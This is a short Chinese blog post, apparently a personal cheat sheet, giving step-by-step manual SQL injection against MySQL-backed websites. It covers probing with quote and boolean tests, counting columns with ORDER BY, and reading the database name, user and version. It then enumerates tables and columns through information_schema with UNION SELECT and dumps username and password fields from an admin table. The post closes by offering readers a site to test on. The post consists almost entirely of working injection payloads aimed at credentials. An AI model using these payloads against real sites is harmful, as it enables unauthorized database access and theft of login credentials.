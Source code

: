 ```yaml
---
title: Sql手工注入过程
tags: [Sql注入]
categories: [网络安全]
date: 2016-04-14 12:01:25
---
```


<blockquote class="blockquote-center">
记录以下手工注入的过程, 一些常用的语句, 以免自己忘记, 数据库版本是mysql5以上
</blockquote>
             
## 1. 网站脆弱性检测

    ' / and 1=1 / and 1=2 等。

## 2. 拆解字段数目

    order by (N)

## 3. 查看渗透相关信息
   
    database() : 站点所用数据库
    user() : 站点当前数据库用户
    version() : 数据库版本信息
    @@version_compile_os : 站点所在服务器操作系统版本         

    union select database()
    union select user()
    ...

<!-- more -->

## 4. 联合查询表名 (以下均以 N=2 示例)

    union select 1,group_concat(table_name) from information_schema.tables where table_schema=(编码后的数据库名, 或者单引号括起来) 

## 5. 联合查询字段名

    union select 1,group_concat(column_name) from information_schema.columns where table_name=(编码后的数据库表名, 或者单引号括起来)

## 6. 联合查询数据

    union select (username), (password) from (admin_table)

    () 中为可变的字段, 名字不一定叫做 username 和 password



PS: 想要网站测试的童鞋留下邮箱我会把测试网站发给你们哟 :P

